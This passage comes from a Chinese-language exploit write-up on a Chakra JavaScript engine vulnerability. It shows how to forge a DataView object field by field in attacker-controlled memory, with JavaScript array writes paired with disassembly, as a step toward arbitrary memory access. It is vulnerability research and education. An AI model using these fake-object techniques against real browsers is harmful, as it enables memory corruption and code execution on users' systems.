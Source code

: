 在进行完这步操作之后，arr[0]就指向了完全由我们控制的segment中的buffer内存，此时的情况如图所示，接下来要做的是在内存中布置一个DataView。

[![](https://p5.ssl.qhimg.com/t0126c654833eed6d53.png)](https://p5.ssl.qhimg.com/t0126c654833eed6d53.png)



## 创建fake DataView

由于之前创建的fake_object是一个NativeIntArray，其中每一项是4个字节。而在Chakra中，指针等数据都是8字节表示，DataView对象的域或是其中的指针也是8个字节，所以需要分高4字节低4字节两次写入才可以。

DataView的第一项是vtable指针，在这个漏洞中目前我们还没有办法去获取到一个合法的vtable地址，所以只好填零留到后面处理。

```
fake_object[0]=0x0; fake_object[1]=0x0;
/*
    000001801D701260  mov         dword ptr [rcx+18h],edx  
    000001801D701263  xor         edx,edx  
    000001801D701265  mov         dword ptr [rcx+1Ch],edx  
*/
```

DataView的第二项是TypeObject的指针，对于Chakra中所有的Dynamic Object都保存一个TypeObject的指针用于标识类型等基本信息，这称为运行时类型。这里因为不涉及控制数据访问的域，也先填零处理。

```
fake_object[2]=0; fake_object[3]=0;
//000001801D701280  mov         dword ptr [rcx+20h],edx  
//000001801D701290  mov         dword ptr [rcx+24h],r9d
```

DataView的第三、四项是继承自Dynamic Object中的内容。在Chakra中Dynamic Object与Static Object对立，只有简单的String、Boolean等Object是static的，其余的基本都是Dynamic Object。因为Dynamic Object的值同样不涉及控制数据访问的域，这里还是对三、四项填零处理。

```
fake_object[4]=0; fake_object[5]=0;
//000001801D701294  mov         dword ptr [rcx+28h],38h
//000001801D70129D  mov         dword ptr [rcx+2Ch],edx 

fake_object[6]=0; fake_object[7]=0;
//000001801D7012BB  mov         dword ptr [rcx+30h],edx 
//000001801D7012CB  mov         dword ptr [rcx+34h],r9d
```

下面第五项是一个比较重要的域，表示buffer的size

```
fake_object[8]=0x200; fake_object[9]=0;
//000001801D7012CF  mov         dword ptr [rcx+38h],200h
//000001801D7012D8  mov         dword ptr [rcx+3Ch],edx
```

第六项是指向DataView对应的ArrayBuffer Object的指针，但是使用DataView访问数据时不会使用ArrayBuffer中的地址，而是优先使用第八项buffer指针的地址。所以这里也填零，之后再处理。

```
fake_object[10]=0; fake_object[11]=0;
//000001801D7012ED  mov         dword ptr [rcx+40h],edx  
//000001801D7012FD  mov         dword ptr [rcx+44h],r9d
```
